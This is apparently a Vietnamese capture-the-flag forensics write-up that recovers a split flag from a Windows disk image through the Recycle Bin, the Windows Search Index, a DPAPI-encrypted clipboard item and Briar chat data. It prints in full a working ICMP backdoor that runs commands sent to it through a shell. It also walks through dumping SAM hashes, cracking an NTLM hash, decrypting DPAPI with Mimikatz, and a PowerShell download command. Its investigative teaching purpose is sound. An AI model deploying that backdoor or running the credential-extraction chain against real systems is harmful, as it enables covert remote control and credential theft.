# Challenge Deleted Secret

## 1. Đầu vào challenge

Challenge cung cấp 1 file `chall_final.ad1`.



Từ đề bài thấy được:

```text
Deleted Secret
Windows machine
rapid acquisition while system was live
```

Từ đó suy luận hợp lý là:

```text
Secret từng nằm trong file trên Windows
file có thể đã bị xóa
nhưng artifact hệ thống có thể vẫn giữ metadata/nội dung đã index
```

Khi tra cứu “Windows deleted file forensic search content”.




Hiện tại trong file `ad1` không chứa file `$MFT` và `$J`, nên pivot sang `$Recycle Bin` trước.

Trong `$Recycle Bin` cụ thể:



Phát hiện ra có file `agent.py`.

```python
import socket
import struct
import subprocess
import sys
import argparse

COMMAND_PREFIX = b"CMD_EXEC:"
RESPONSE_PREFIX = b"CMD_RESPONSE:"

def parse_arguments():
    parser = argparse.ArgumentParser(description='EchoC2 Agent')
    parser.add_argument('--size', type=int, default=1024,
                        help='Max packet size (default: 1024). Use 84 to mimic standard ICMP packet lengths.')
    args = parser.parse_args()
    return args.size

MAX_PACKET_SIZE = parse_arguments()

ICMP_HEADER_SIZE = 8
IP_HEADER_SIZE = 20
FRAGMENT_HEADER_SIZE = 4
PAYLOAD_SIZE = MAX_PACKET_SIZE - IP_HEADER_SIZE - ICMP_HEADER_SIZE
FRAGMENT_SIZE = PAYLOAD_SIZE - FRAGMENT_HEADER_SIZE - len(RESPONSE_PREFIX)

def log(message):
    print(f"[*] {message}", file=sys.stderr, flush=True)

def calculate_checksum(packet):
    if len(packet) % 2 != 0:
        packet += b'\0'
    words = struct.unpack("!%sH" % (len(packet) // 2), packet)
    return (~sum(words) & 0xffff)

def create_icmp_socket():
    try:
        return socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
    except PermissionError:
        log("Error: This script requires root privileges. Please run with sudo.")
        sys.exit(1)

def execute_command(command):
    try:
        output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
        return output
    except subprocess.CalledProcessError as e:
        return e.output

def server():
    log("Starting server with packet length " + str(MAX_PACKET_SIZE))
    icmp_socket = create_icmp_socket()
    icmp_socket.bind(("0.0.0.0", 0))
    
    while True:
        try:
            packet, addr = icmp_socket.recvfrom(MAX_PACKET_SIZE)
            icmp_type, code, checksum, p_id, sequence = struct.unpack('!BBHHH', packet[20:28])
            icmp_data = packet[28:]
            
            if icmp_type == 8: 
                if icmp_data.startswith(COMMAND_PREFIX):
                    command = icmp_data[len(COMMAND_PREFIX):].decode().strip()
                    log(f"Executing command: {command}")
                    output = execute_command(command)
                    
                    fragments = [output[i:i+FRAGMENT_SIZE] for i in range(0, len(output), FRAGMENT_SIZE)]
                    total_fragments = len(fragments)
                    
                    for i, fragment in enumerate(fragments):
                        fragment_header = struct.pack("!HH", i, total_fragments)
                        payload = fragment_header + RESPONSE_PREFIX + fragment
                        padding = b'\0' * (PAYLOAD_SIZE - len(payload))
                        padded_payload = payload + padding
                        
                        reply_header = struct.pack("!BBHHH", 0, 0, 0, p_id, sequence + i)
                        reply_checksum = calculate_checksum(reply_header + padded_payload)
                        reply_header = struct.pack("!BBHHH", 0, 0, reply_checksum, p_id, sequence + i)
                        reply_packet = reply_header + padded_payload
                        
                        log(f"Sending fragment {i+1}/{total_fragments}. Packet size: {len(reply_packet)}")
                        icmp_socket.sendto(reply_packet, addr)
                else:
                    reply_data = icmp_data[:PAYLOAD_SIZE].ljust(PAYLOAD_SIZE, b'\0')
                    reply_header = struct.pack("!BBHHH", 0, 0, 0, p_id, sequence)
                    reply_checksum = calculate_checksum(reply_header + reply_data)
                    reply_header = struct.pack("!BBHHH", 0, 0, reply_checksum, p_id, sequence)
                    reply_packet = reply_header + reply_data
                    icmp_socket.sendto(reply_packet, addr)
            else:
                log(f"Ignoring non-Echo Request ICMP packet. Type: {icmp_type}")
        except Exception as e:
            log(f"Error in server loop: {e}")

if __name__ == "__main__":
    server()
```

### Phân tích

File này là một backdoor/C2 agent dùng ICMP Echo Request/Echo Reply để nhận lệnh và trả output.

Có command prefix rõ ràng:

```python
COMMAND_PREFIX = b"CMD_EXEC:"
RESPONSE_PREFIX = b"CMD_RESPONSE:"
```

Script mở raw ICMP socket:

```python
socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
```

Script không dùng TCP/HTTP/DNS. Nó trực tiếp nghe ICMP packet.

Vì dùng raw socket nên cần quyền root/admin:

```python
except PermissionError:
    log("Error: This script requires root privileges. Please run with sudo.")
```

Điểm này quan trọng: nếu script từng chạy thành công, attacker hoặc user đã có quyền cao.

Nó chỉ xử lý ICMP Echo Request:

```python
icmp_type, code, checksum, p_id, sequence = struct.unpack('!BBHHH', packet[20:28])

if icmp_type == 8:
```

ICMP type `8` là Echo Request, tức gói ping request.

Suy luận:

```text
Attacker không cần mở port TCP.
Chỉ cần gửi ping có payload đặc biệt.
```

Nó thực thi command bằng shell:

```python
output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
```

Đây là dòng nguy hiểm nhất. Payload sau `CMD_EXEC:` được decode thành command và chạy trực tiếp bằng shell trên máy nạn nhân.

Output được trả về qua ICMP Echo Reply:

```python
reply_header = struct.pack("!BBHHH", 0, 0, 0, p_id, sequence + i)
```

ICMP type `0` là Echo Reply.

Suy luận:

```text
Request vào: ICMP type 8
Response ra: ICMP type 0
```

Nó không in output ra file, mà gửi qua network.

Ngoài ra còn có cơ chế chia nhỏ output:

```python
fragments = [output[i:i+FRAGMENT_SIZE] for i in range(0, len(output), FRAGMENT_SIZE)]
```

Mỗi fragment có header:

```python
fragment_header = struct.pack("!HH", i, total_fragments)
```

Vậy với pivot ở `$Recycle Bin`, hiện tại chỉ có deleted artifact và chỉ liên quan `agent.py` là C2 qua ICMP, không chứa flag trực tiếp.

## 2. Pivot sang Windows Search Index

Vậy giờ pivot qua Windows Search Index.

### Kiến thức ngoài lề

Windows Search Index là cơ chế Windows dùng để lập chỉ mục trước cho file, email và nội dung khác trên máy, nhằm giúp thao tác search nhanh hơn. Thay vì mỗi lần người dùng tìm kiếm thì Windows phải quét toàn bộ ổ đĩa, dịch vụ indexing sẽ chạy nền, đọc thông tin như tên file, metadata, từ khóa và đôi khi cả nội dung text trong file, rồi lưu vào một cơ sở dữ liệu index. Microsoft mô tả indexing là quá trình nhìn vào files/email/content và catalog các thông tin như “words and metadata” để tìm kiếm nhanh hơn.

Với [Cisco XDR Forensics](https://docs.xdr.security.cisco.com/Content/Forensics/air/features/acquisition/supported-evidence/windows-collections-detail/windows-index-search.htm), Windows Search Index có thể reveal file content and metadata, và investigator có thể dùng nó để recover deleted file metadata cũng như identify files that were indexed before deletion.

Có thể đọc thêm bài viết về Windows Search Index ở 2 version Windows của [LevelBlue](https://www.levelblue.com/blogs/spiderlabs-blog/windows-search-index-the-forensic-artifact-youve-been-searching-for).



Vậy giờ tìm tới:

```text
C:\ProgramData\Microsoft\Search\Data\Applications\Windows\
```

và export file `Windows.edb`.



Sau khi export file `Windows.edb`, sử dụng source của repo [SIDR - Search Index Data Reader](https://github.com/strozfriedberg/sidr) để parse database Windows Search Index thành các report dạng CSV.



Command:

```powershell
.\sidr.exe -f csv -o D:\edb_out D:\edb
```

Thu được 3 file csv report.



Ở file `DESKTOP-124K5L1_Activity_History_Report_20260520_164258.831531.csv`, thấy được ở cột `System_Activity_DisplayText` chứa tên các file từng được người dùng mở hoặc tương tác.



Còn ở trong file `DESKTOP-124K5L1_File_Report_20260520_164258.831185600.csv`, chú ý hai cột `System_ItemPathDisplay` và `System_Search_AutoSummary`.

- `System_ItemPathDisplay`: cho biết đường dẫn đầy đủ của file đã được Windows Search index. Cột này giúp xác định file nằm ở đâu trong hệ thống.
- `System_Search_AutoSummary`: chứa phần nội dung/summary mà Windows Search đã trích xuất từ file.

Vậy từ file `DESKTOP-124K5L1_Activity_History_Report_20260520_164258.831531.csv`, lọc được các tên file nghi ngờ:

```text
agent.py
chall.ad1.txt
config.json
Instructions.pdf
link.txt.txt
nuke.py
RegistryExplorerManual.pdf
target.txt
```

Rồi sử dụng `csvsql` để query lấy hai cột `System_ItemPathDisplay` và `System_Search_AutoSummary` trong File Report.

```bash
csvsql -I --tables report --query '
SELECT
  "System_ItemPathDisplay",
  "System_Search_AutoSummary"
FROM report
WHERE
  "System_ItemPathDisplay" LIKE "%agent.py%"
  OR "System_ItemPathDisplay" LIKE "%chall.ad1.txt%"
  OR "System_ItemPathDisplay" LIKE "%config.json%"
  OR "System_ItemPathDisplay" LIKE "%Instructions.pdf%"
  OR "System_ItemPathDisplay" LIKE "%link.txt.txt%"
  OR "System_ItemPathDisplay" LIKE "%nuke.py%"
  OR "System_ItemPathDisplay" LIKE "%RegistryExplorerManual.pdf%"
  OR "System_ItemPathDisplay" LIKE "%target.txt%";
' DESKTOP-124K5L1_File_Report_20260520_164258.831185600.csv > files.csv
```



Thấy được một số flag decoy `BKISC{Dunno_whut_to_say_T^T_Whut_r_u_doing_here?}` từ các record của:

```text
C:\Users\admin\Desktop\secret\link.txt.txt
```

Đặc biệt hơn, ở cột `System_Search_AutoSummary` của file `target.txt` có một chuỗi lạ nằm trong cột `Note`:

```text
IJFUSU2DPNLW6YLIL5EV64RTGRWGY6K7MR2W43TPL4
```

Nội dung được index:

```csv
Name, Phone, Email, Organization, Note
Aaron Taylor, 536-100-2554, aaron.taylor70@hichat.com, Alpha Systems
Quentin Young, 954-627-1995, quentin.young71@hichat.com, Alpha Systems
Uma Lewis, 972-913-5492, uma.lewis74@forgivemechat.com, Alpha Systems, IJFUSU2DPNLW6YLIL5EV64RTGRWGY6K7MR2W43TPL4
Steve Lee, 436-404-3555, steve.lee31@forgivemechat.com, Alpha Systems
Diana Thomas, 174-605-9581, diana.thomas37@forgivemechat.com, Alpha Systems
Grace Davis, 837-578-1514, grace.davis35@forgivemechat.com, Alpha Systems
Trudy Williams, 102-805-8784, trudy.williams69@forgivemechat.com, Alpha Systems
Grace Martinez, 997-649-3701, grace.martinez92@forgivemechat.com, Alpha Systems
Rachel Garcia, 270-289-8623, rachel.garcia36@yochat.com, Alpha Systems
David Johnson, 661-580-4892, david.johnson78@yochat.com, Alpha Systems
Uma Johnson, 327-764-8282, uma.johnson2@wechat.com, Alpha Systems
Carl Wilson, 780-600-4315, carl.wilson83@yochat.com, Alpha Enterprises
Eve Robinson, 237-928-5698, eve.robinson79@wechat.com, Alpha Enterprises
```

Sau khi decode một lúc thì biết chuỗi này là Base32 và decode ra được part 1 của flag là:

```text
BKISC{Woah_I_r34lly_dunno_
```



## 3. Tìm password trong Instructions.pdf và pivot sang clipboard

Vẫn từ file `files.csv`.



Vẫn từ File Report, khi kiểm tra record của `Instructions.pdf`, cột `System_Search_AutoSummary` chứa nội dung cho biết đây là tài liệu hướng dẫn cho một “Red Team Operation” và nhắc đến việc sử dụng một bộ công cụ được cung cấp dưới dạng archive. Đáng chú ý, phần indexed summary còn lộ ra password/secret:

```text
Mot_con_vit_xoe_r4_h4i_c4i_c4nh!!!
```

Đồng thời đoạn này cũng nhắc nhiều tới việc trao đổi thông tin, hướng dẫn vận hành và tài liệu được chia sẻ trong quá trình “Red Team Operation”, nên có thể pivot sang trình duyệt, đoạn chat, clipboard hoặc artifact của các ứng dụng nhắn tin để tìm dấu vết về link, password hoặc tài liệu được chia sẻ giữa các bên.

Trong đó password/link thường được user copy-paste khi trao đổi hoặc mở tài liệu, vậy có thể đi tới:

```text
C:\Users\supadupadev\AppData\Local\Microsoft\Windows\Clipboard
```

đầu tiên vì đây là vùng lưu trữ ẩn tạm thời trên máy tính, có chức năng giữ lại dữ liệu như văn bản, hình ảnh, tập tin vừa thực hiện thao tác Copy hoặc Cut cho đến khi thực hiện thao tác Paste vào một vị trí khác.



Thấy được 1 file có tên lạ mà khi decode ra thì ra “text”.



Sau khi export file này ra và check nhanh bằng `strings` thì thấy được.



Có chuỗi `user0` đọc được, kèm các string như `LOCAL`, nhưng không thấy nội dung clipboard ở dạng plaintext. Vì vậy khả năng file này không lưu trực tiếp text đã copy, mà chứa metadata/structure của clipboard item cùng phần dữ liệu được bảo vệ theo ngữ cảnh user.

Vậy có thể suy nghĩ:

```text
Clipboard item thuộc profile user
-> nội dung không đọc được trực tiếp
-> khả năng bị Windows bảo vệ bằng DPAPI
-> cần material/credential của user tương ứng để giải mã
```

### Kiến thức ngoài lề

DPAPI (Data Protection API) là cơ chế bảo vệ dữ liệu có sẵn trên Windows. Thay vì mỗi ứng dụng tự quản lý khóa mã hóa, Windows cung cấp DPAPI để ứng dụng có thể mã hóa các dữ liệu nhạy cảm như password, token, cookie, credential hoặc clipboard data theo ngữ cảnh của user hoặc machine.

Với dữ liệu được bảo vệ theo user context, chỉ user tương ứng mới có thể giải mã bình thường khi đăng nhập vào Windows.

Có hai hướng chính để giải mã DPAPI blob:

1. Giải mã trên chính máy hoặc môi trường có user context tương ứng bằng API `CryptUnprotectData`.



2. Giải mã offline bằng cách thu thập DPAPI masterkey, registry hive và credential/password của user.

[Synacktiv](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary) mô tả DPAPI dùng masterkeys để mã hóa dữ liệu; masterkeys của user nằm tại:

```text
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>
```

Masterkey được mã hóa bằng dẫn xuất từ password của user hoặc DPAPI system key, và prerequisites để decrypt khác nhau theo context: domain user cần password/NT hash/domain backup key, local user cần password hoặc SHA1 hash, local DPAPI cần SYSTEM và SECURITY hives.

Vậy giờ cần export các file:

```text
C:\Users\supadupadev\AppData\Local\Microsoft\Windows\Clipboard\Pinned\VGV4dA==
C:\Users\supadupadev\AppData\Roaming\Microsoft\Protect\
C:\Users\supadupadev\NTUSER.DAT
C:\Windows\System32\Config\SAM
C:\Windows\System32\Config\SYSTEM
C:\Windows\System32\Config\SECURITY
```



## 4. Giải mã DPAPI clipboard artifact

Sau khi có đủ các file, bước 1 là sử dụng `secretsdump.py` của Impacket để dump local account hash từ các registry hive `SAM`, `SYSTEM` và `SECURITY`.

```bash
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL | tee secretsdump.txt
```



Hash cần lấy là đoạn cuối dòng này:

```text
supadupadev:1001:aad3b435b51404eeaad3b435b51404ee:a3403f6e5db051f4110680a63dd29691:::
```

Vậy NT hash là:

```text
a3403f6e5db051f4110680a63dd29691
```

Bước 2, sau khi có NT hash của user `supadupadev`, sử dụng hashcat để crack hash lấy plaintext password của user. Vì NT hash là NTLM hash nên dùng mode `1000` của hashcat.

```bash
echo 'a3403f6e5db051f4110680a63dd29691' > supadupadev_ntlm.hash
hashcat -m 1000 -a 0 supadupadev_ntlm.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --status
hashcat -m 1000 -a 0 supadupadev_ntlm.hash --show
```



Kết quả NT hash `a3403f6e5db051f4110680a63dd29691` tương ứng với password:

```text
kangkong
```

Bước 3 là decrypt DPAPI masterkey của user.

```bash
dpapi.py masterkey \
-file "Protect/S-1-5-21-4096025575-3958345073-1841117829-1001/33394d46-41d9-494e-86c7-1b0ea4d0d5c9" \
-sid "S-1-5-21-4096025575-3958345073-1841117829-1001" \
-password "kangkong"
```

### Giải thích

Dùng `dpapi.py masterkey` để giải mã một DPAPI masterkey của user.

Tham số `-file` trỏ tới file masterkey cần giải mã. File này nằm trong thư mục `Protect` theo SID của user, cụ thể là:

```text
Protect/S-1-5-21-4096025575-3958345073-1841117829-1001/33394d46-41d9-494e-86c7-1b0ea4d0d5c9
```

Tham số `-sid` là SID của user sở hữu masterkey. DPAPI dùng SID như một phần ngữ cảnh để derive key giải mã masterkey. Ở đây SID kết thúc bằng RID `1001`, khớp với user `supadupadev` đã xác định từ output của `secretsdump`.

Tham số `-password` là plaintext password của user đó. Password này được dùng cùng SID để derive khóa cần thiết nhằm decrypt masterkey. Trong case này, password `kangkong` được khôi phục từ NTLM hash của user `supadupadev` bằng hashcat.



Thu được DPAPI decrypted masterkey là chuỗi hex:

```text
0x4d59a1889dfd27ae39ad952533f9c070b77e90536308ef94c331be330e3973384d28d62ce4681f670304507387c5a444f86d6a65d17a2348b366e204f6d48931
```

Bước 4, check vị trí DPAPI blob thật sự bên trong clipboard artifact.

Khi chạy `dpapi.py unprotect` trực tiếp trên file `VGV4dA==`, tool báo lỗi parse cấu trúc DPAPI. Điều này cho thấy `VGV4dA==` không phải raw DPAPI blob bắt đầu từ offset `0`, mà là một clipboard container có metadata riêng. Vì vậy cần tìm vị trí DPAPI blob nằm bên trong file.

DPAPI blob thường có phần header bắt đầu bằng version `01 00 00 00`, theo sau là provider GUID `d08c9ddf-0115-d111-8c7a-00c04fc297eb`. Dùng script để đọc toàn bộ file, tìm signature này, sau đó cắt dữ liệu từ offset tìm được ra một file mới `clean.dpapi`.

```python
from pathlib import Path

data = Path("VGV4dA==").read_bytes()
# DPAPI blob thường bắt đầu bằng:
# 01 00 00 00 + provider GUID d08c9ddf-0115-d111-8c7a-00c04fc297eb
sig = bytes.fromhex("01000000d08c9ddf0115d1118c7a00c04fc297eb")
off = data.find(sig)
if off != -1:
    Path("clean.dpapi").write_bytes(data[off:])
```

Bước 5, decrypt lớp DPAPI ngoài.

Sau khi có `clean.dpapi` và decrypted masterkey, dùng Mimikatz để decrypt mã lớp DPAPI ngoài của clipboard blob.

```text
dpapi::blob /in:"D:\decrypt\clean.dpapi" /masterkey:4d59a1889dfd27ae39ad952533f9c070b77e90536308ef94c331be330e3973384d28d62ce4681f670304507387c5a444f86d6a65d17a2348b366e204f6d48931
```



`data` trả về không phải chuỗi ASCII/UTF-16LE đọc được mà là 32 bytes binary:

```text
291bf76c9f9701e50e278031549d860547d2d178b63fbaf357f9262168785571
```

Độ dài 32 bytes tương ứng với kích thước key 256-bit. Output không phải text thuần nên nhiều khả năng không phải nội dung clipboard cuối cùng mà là key material. Trong context cấu trúc blob hiện tại, key material 32 bytes này được xem là CEK trung gian: nó là kết quả sau khi decrypt lớp DPAPI ngoài, và sẽ được dùng để kiểm tra xem có giải được lớp mã hóa tiếp theo hay không.

### Kiến thức ngoài lề

CEK (Content Encryption Key) là khóa đối xứng được dùng để mã hóa hoặc giải mã phần nội dung dữ liệu, thay vì dùng trực tiếp masterkey dài hạn. Trong các hệ thống mã hóa nhiều lớp, masterkey thường không mã hóa dữ liệu cuối trực tiếp mà chỉ bảo vệ hoặc giải mã ra một key trung gian. Key trung gian đó mới được dùng để xử lý payload ở lớp tiếp theo.

Trong case này, DPAPI masterkey dùng để mở lớp DPAPI ngoài. Kết quả sau lớp này là một chuỗi 32 bytes, tương ứng với key 256-bit. Vì chuỗi này không phải plaintext và có kích thước đúng bằng một khóa AES-256.

Vậy để kiểm chứng, sử dụng script để dùng chuỗi 32 bytes này như một key 256-bit và thử unwrap phần wrapped key nằm trong payload còn lại của clipboard blob. Nếu AES Key Unwrap thành công chứng minh output từ Mimikatz không phải plaintext mà là key trung gian dùng để mở lớp mã hóa tiếp theo.

Bước 6, kiểm chứng CEK bằng AES Key Unwrap.

```python
from pathlib import Path
from cryptography.hazmat.primitives.keywrap import aes_key_unwrap

cek = bytes.fromhex("291bf76c9f9701e50e278031549d860547d2d178b63fbaf357f9262168785571")

clean = Path("clean.dpapi").read_bytes()
tail = clean[262:]

wrapped_key = tail[61:101]
real_cek = aes_key_unwrap(cek, wrapped_key)

print(real_cek.hex())
```



Kết quả script trả về:

```text
d9bacf57ebc210b575ef7ced8b4ab031209e67a00113de5910d7792ffb9d600c
```

Đây là một chuỗi 32 bytes khác, tức một key 256-bit mới chứng minh chuỗi 32 bytes lấy từ Mimikatz là key trung gian dùng để unwrap key thật ở lớp mã hóa tiếp theo.

Bước 7, dùng real CEK để kiểm tra AES.

Sử dụng script để thử các AES mode phổ biến với real CEK candidate.

```python
from pathlib import Path
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

key = bytes.fromhex("d9bacf57ebc210b575ef7ced8b4ab031209e67a00113de5910d7792ffb9d600c")
tail = Path("clean.dpapi").read_bytes()[262:]
nonce = tail[131:143]
ct = tail[146:182]
tag = tail[182:198]
iv = tail[131:147]

def show(name, data):
    print(f"\n{name}")
    try:
        print(data.decode("utf-16le"))
    except Exception:
        print(data.hex())

tests = {
    "AES-GCM": lambda: AESGCM(key).decrypt(nonce, ct + tag, None),
    "AES-CBC": lambda: Cipher(algorithms.AES(key), modes.CBC(iv)).decryptor().update(tail[147:179]),
    "AES-CTR": lambda: Cipher(algorithms.AES(key), modes.CTR(iv)).decryptor().update(ct),
    "AES-CFB": lambda: Cipher(algorithms.AES(key), modes.CFB(iv)).decryptor().update(ct),
    "AES-OFB": lambda: Cipher(algorithms.AES(key), modes.OFB(iv)).decryptor().update(ct),
}

for name, func in tests.items():
    try:
        show(name, func())
    except Exception as e:
        print(f"{name}: {type(e).__name__}")
```

Cuối cùng xác định lớp mã hóa cuối là AES-GCM và plaintext thu được là:

```text
Gho67qqxmv36!26@@@
```



## 5. Mở lại Briar và lần tới payload cuối

Chuỗi thu được giống password. Vì nó được lấy từ pinned clipboard text của user, hướng tiếp theo là xác định password này được dùng cho ứng dụng hoặc artifact nào trong profile người dùng.

Khi check lại trong profile user `supadupadev`, thấy một folder ẩn tên `.briar`. Bên trong folder này có các thư mục như `db`, `key`, `mailbox` và `tor` giống dữ liệu ứng dụng Briar Desktop: có database, key mã hóa, mailbox và thành phần Tor dùng cho giao tiếp ẩn danh.

Điều này khớp với hướng suy luận trước đó: plaintext lấy được từ clipboard không phải flag mà có dạng credential/password.



Extract folder này ra, sau khi extract tải và sử dụng Briar Desktop để mở lại profile `.briar/desktop` đã recover được.

```powershell
& "C:\Program Files\Briar\Briar.exe" --data-dir=".briar\desktop"
```



Cuối cùng thu được Google Drive folder URL được chia sẻ trong đoạn chat với Pony, đồng thời xác nhận được password `Mot_con_vit_xoe_r4_h4i_c4nh!!!` tìm được là password để extract file tải về từ URL kia.

Tải file từ đường dẫn kia về và extract với password:

```bash
7z x tools.zip -p'Mot_con_vit_xoe_r4_h4i_c4nh!!!' -y
```

Cuối cùng thu được file `tools.exe`, khi strings nhìn nhanh thử thu được command PowerShell.



```powershell
powershell.exe -NoProfile -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object System.Net.WebClient).DownloadString('https://gist.githubusercontent.com/Amesame/76aecb869de8911eb65fb33458d8edfd/raw')"
```

Command này dùng để tải một chuỗi text từ GitHub Gist. Khi truy cập thử được chuỗi:

```text
D4F8%E13C856HPELFF+8DZKE+2C856PEDX CE2CS-BZ2
```



Chuỗi này khi decode Base45 thì thu được phần còn lại của flag là:

```text
whut_t0_s4y_here_n0_idea_T^T}
```



## 6. Flag

Ghép part 1 lấy được từ `target.txt` trong Windows Search Index:

```text
BKISC{Woah_I_r34lly_dunno_
```

với part 2 lấy được từ chuỗi Base45 trong GitHub Gist:

```text
whut_t0_s4y_here_n0_idea_T^T}
```

Vậy flag là:

```text
BKISC{Woah_I_r34lly_dunno_whut_t0_s4y_here_n0_idea_T^T}
```

## 7. Flow

